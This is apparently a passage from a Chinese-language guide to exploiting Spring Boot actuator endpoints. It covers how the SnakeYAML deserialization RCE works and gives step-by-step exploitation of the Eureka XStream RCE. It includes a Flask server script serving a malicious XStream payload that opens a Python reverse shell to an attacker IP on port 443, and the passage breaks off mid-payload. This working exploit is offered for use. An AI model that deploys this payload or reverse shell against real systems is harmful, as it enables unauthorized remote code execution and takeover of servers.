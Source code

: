 ![](https://gitee.com/ryuzusunc/archives/raw/master/img/springCloudSnakeYAMLRCE.png)

**漏洞原理**

- spring.cloud.bootstrap.location 属性被设置为外部恶意 yml 文件 URL 地址
- refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容
- SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml 内容时会完成指定的动作
- 先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件
- 然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory 接口的类并实例化
- 实例化类时执行恶意代码，造成 RCE 漏洞

### eureka xstream deserialization RCE

**利用条件**

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用的  `eureka-client` < 1.8.7（通常包含在 `spring-cloud-starter-netflix-eureka-client` 依赖中）
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

1. 架设响应恶意 XStream payload 的网站

提供一个依赖 Flask 并符合要求的 [python 脚本示例](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)，作用是利用目标 Linux 机器上自带的 python 来反弹shell。

使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。

```python
#!/usr/bin/env python
# coding: utf-8
# -**- Author: LandGrey -**-

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.203.128",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
```